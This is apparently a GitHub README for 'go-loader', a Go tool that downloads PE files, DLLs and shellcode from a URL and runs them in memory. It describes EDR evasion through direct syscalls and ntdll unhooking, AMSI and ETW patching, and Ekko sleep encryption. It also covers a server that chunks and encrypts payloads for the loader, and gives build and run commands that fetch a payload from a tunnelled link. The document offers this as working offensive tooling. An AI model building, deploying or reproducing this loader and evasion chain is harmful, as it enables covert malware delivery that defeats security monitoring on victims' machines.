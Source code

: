 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## demo
![demo (2)](https://github.com/user-attachments/assets/587895f5-7d6c-4825-a4da-d61796546cbe)


## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys. the loader also now offers a server that parses a payload from disk, chunks, encrypts, and sends one by one to requesting client to be reflectively loaded and executed

> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang.

## to use the loader/server
```bash
## navigate to go-server/cmd
cd go-server/cmd
## in another shell, run the tcp tunnel ssh command included as a comment in server.go
## replace the const link with the generated link
## then run the server
go run server.go
## this will generate a payloads folder, move your payloads into them
## now navigate to go-loader/cmd\
cd ../cmd
go build -ldflags="-w -s" -trimpath -o loader.exe
## then to run with a payload from /payloads
./loader.exe -pe|dll|shellcode -url http://<generated-link>/payloads/filename.exe
```

## use this pattern for a more reliable form of evasion

```go
// import pkg/net and pkg/patch
patch.ETW
patch.AMSI
addr, size, err := net.GetGlobalBufferRegion()
if err != nil {
	log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
}

key, err := ekko.GenerateKey(16)
if err != nil {
	log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
}

err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
}

// we just call it again to decrypt bc symmetric 
err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
}

```

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
